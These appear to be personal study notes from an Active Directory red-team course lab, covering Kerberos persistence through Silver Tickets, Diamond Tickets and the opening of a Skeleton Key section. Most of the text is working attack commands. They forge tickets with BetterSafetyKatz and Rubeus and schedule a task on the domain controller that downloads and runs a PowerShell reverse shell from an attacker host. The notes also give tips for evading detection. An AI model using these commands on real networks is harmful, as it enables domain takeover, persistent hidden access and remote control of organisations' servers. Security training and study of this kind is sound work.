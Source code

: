 ***always make sure that the tickets we forge are compliant to the target environment settings; Always use AES and not RC4 (NTLM); Only use DCSync on the DCs; Not target DA account using Golden Ticket***
# **Learning Objective 8**
[[Learning Objective 8]]
# **Persistence - Silver Ticket**
TGS is encrypted with the target service AES keys (step 5). If we can extract the service account secrets we can forge our own TGS's
Better than Golden Ticket because it doesnt interact with the DC
All use the machine account as the service account, so what we need is the machine account secrets of the target machine
30 days maximium for persistence (by default machine account passwords are reset every 30 days)
- #### ***Using hash of the DC computer account, below command provides access to file system on the DC***
`C:\AD\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<DomainSID> /target:dcorp-dc.dollarcorp.moneycorp.local /service:<SPN4TGS> /aes256:<serviceaccounthash> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"`
(similar command can be used for any other service on a machine, like CIFS, HOST, RPCSS, HTTP). Always make sure that the user is an active domain admin, id is the same security identifier as the user we specified. HOST + RPCSS for WMI or HTTP for WinRM
- #### ***Command Execution using Silver Tickets***
`C:\AD\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<DomainSID> /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /aes256:<serviceaccounthash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"`
	***Schedule and execute a task - noisy but fine for PoC***
`schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority/SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex(New-Object Net.WebClient).DownloadString(''http://172.16.100.X:8080/Invoke-PowerShellTcp.ps1''')'"`
`schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"`
# **Learning Objective 9**
[[Learning Objective 9]]
# **Persistence - Diamond Ticket**
To bypass the problem of Golden Ticket maybe getting detected because there was no TGT request.
A Diamond Ticket is created by decrypting a valid TGT making changes to it and re-encypt it using the AES keys of the krbtgt account.
Golden Ticket was a TGT forging attack whereas Diamond Ticket is a TGT modifying attack
The Persistence lifetime depends on krbtgt account.
A Diamond Ticket is more opsec safe as it has: valid ticket times because a TGT issued by the DC is modified, In Golden Ticket there is no corresponding TGT request for TGS as the TGT is forged 
- #### ***We would still need krbtgt AES keys. Use the following Rubeus command to create a diamond ticket (note that RC4 or AES keys of the user can be used too)***
`C:\AD\Tools\Rubeus.exe diamond /krbkey:<AES> /user:studentx /password:studentxpassword /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly: C:\Windows\System32\cmd.exe /show /ptt`
- #### ***We could also use /tgtdeleg option in place of credentials in case we have access as a domain user***
`C:\AD\Tools\Rubeus.exe diamond /krbkey:<AES> /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly: C:\Windows\System32\cmd.exe /show /ptt`
# **Learning Objective 10**
[[Learning Objective 10]]
# **Persistence - Skeleton Key**
Patch a DC (lsass process) so that it allows access as any user with a single password. 